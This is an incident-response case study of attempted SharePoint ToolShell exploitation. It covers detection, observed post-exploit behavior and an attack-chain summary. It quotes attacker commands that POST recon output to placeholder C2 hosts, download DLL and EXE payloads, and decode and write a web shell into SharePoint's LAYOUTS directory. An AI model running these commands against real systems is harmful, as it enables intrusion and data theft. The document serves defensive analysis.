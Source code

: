 # Case Study 001 - SharePoint ToolShell Exploitation Attempt (CVE-2025-49706, CVE-2025-53770, CVE-2025-49704)

> - **Severity:** High
> - **Date:** July 2025
> - **Framework:** MITRE ATT&CK - T1190 Exploit Public-Facing Application


## Overview
The SharePoint ToolShell vulnerabilities include a chain of critical flaws disclosed in 2025.
- **[CVE-2025-49706](https://nvd.nist.gov/vuln/detail/CVE-2025-49706 "https://nvd.nist.gov/vuln/detail/CVE-2025-49706")** allows attackers to bypass authentication mechanisms.
- **[CVE-2025-49704](https://nvd.nist.gov/vuln/detail/CVE-2025-49704 "https://nvd.nist.gov/vuln/detail/CVE-2025-49704")** enables arbitrary file writes, which can be leveraged to achieve remote code execution without valid credentials.
- Two additional variants, **CVE-2025-53771** (derived from CVE-2025-49706) and [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770 "https://nvd.nist.gov/vuln/detail/CVE-2025-53770") (derived from CVE-2025-49704), were later identified through fuzzing research.

Together, these vulnerabilities present a high-risk attack surface where unauthenticated adversaries can gain full control of vulnerable SharePoint instances.

## Detection & Analysis
- Initial alert triggered in **Stellar Cyber XDR** (High Severity).
- **Correlated telemetry:** Microsoft Defender for Endpoint indicated `w3wp.exe` (IIS worker) spawning PowerShell and `cmd.exe` processes consistent with post-exploit activity.

#### Observed behaviors:
- **Recon & data exfil** via `Invoke-WebRequest` **HTTP POST** to external hosts:
    
    - `$(whoami /all)`, `$(systeminfo)`, `$(tasklist /v)`, `$(netstat -ano)`, directory listings of SharePoint and user profile paths.
        
- **Web app & SharePoint enumeration**:
    
    - `appcmd list app /text:[path='/'].physicalPath`, listings under `C:\inetpub\wwwroot\wss\VirtualDirectories\...` and `...\App_GlobalResources`.
        
- **Artifact download & drop** (cleartext HTTP):
    
    - EXE/DLLs fetched from external IPs/domains and saved under `C:\Users\[SERVICE_ACCOUNT]\AppData\Local\...` and `C:\ProgramData\...`.
        
- **Potential web shell deployment**:
    
    - **Decoded `-EncodedCommand` summary:** writes a **Base64-encoded ASPX file** to SharePoint **LAYOUTS** path as `spinstall0.aspx`:
```
$destinationFile = "C:\PROGRA~1\COMMON~1\MICROS~1\WEBSER~1\16\TEMPLATE\LAYOUTS\spinstall0.aspx"
$decodedContent = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($base64String))
$decodedContent | Set-Content -Path $destinationFile
```
→ This is consistent with **ToolShell-style web shell write** into a globally served SharePoint directory.
- **Other signs**: creation of `0.css` in `App_GlobalResources` (write test / file-drop), and plaintext download of binaries (`SPDesk.exe`, `SPlog.exe`, `log.dll`, `Product.Wsc.dll`, `nvsmartmax64.dll`, `txmlutil.dll`).

#### Representative command patterns:
 ``` 
# Exfil / recon
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(whoami /all)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(systeminfo)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(netstat -ano)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(dir C:\inetpub\wwwroot\wss\VirtualDirectories)

# Artifact downloads
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/asx -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\WebTempDir\SPlog.exe
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/2   -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\log.dll
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/3   -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\Product.Wsc.dll

# SharePoint/IIS context
w3wp.exe -ap "SharePointWebAppPools" ...
cmd.exe /c C:\Windows\System32\inetsrv\appcmd.exe list app /text:[path='/'].physicalPath

# EncodedCommand (web shell write to LAYOUTS)
cmd.exe /c powershell -EncodedCommand <BASE64>   # decodes and writes spinstall0.aspx to LAYOUTS

 ```


## Analysis Summary
- The activity observed is consistent with post-exploitation of a SharePoint vulnerability. Adversaries leveraged `w3wp.exe` to spawn PowerShell and `cmd.exe` for:

- **Reconnaissance & Exfiltration** – collecting host details (`systeminfo`, `whoami`, `tasklist`, `netstat`) and directory listings, then exfiltrating results via cleartext HTTP POST to external C2 servers.
    
- **File Write & Payload Delivery** – downloading executables and DLLs into service account directories (`AppData\Local`, `ProgramData`), indicating attempts at persistence or staging.
    
- **Web Shell Deployment** – a Base64-encoded PowerShell payload decoded and wrote an ASPX file (`spinstall0.aspx`) into the SharePoint `LAYOUTS` directory, providing an accessible web shell for remote control.
    
- **SharePoint/IIS Enumeration** – commands targeting `appcmd.exe` and SharePoint resource directories, suggesting knowledge of SharePoint application structure.
    

These behaviors demonstrate a multi-stage attack chain: initial compromise → host reconnaissance → data exfiltration → payload deployment → web shell installation for persistence and further exploitation.

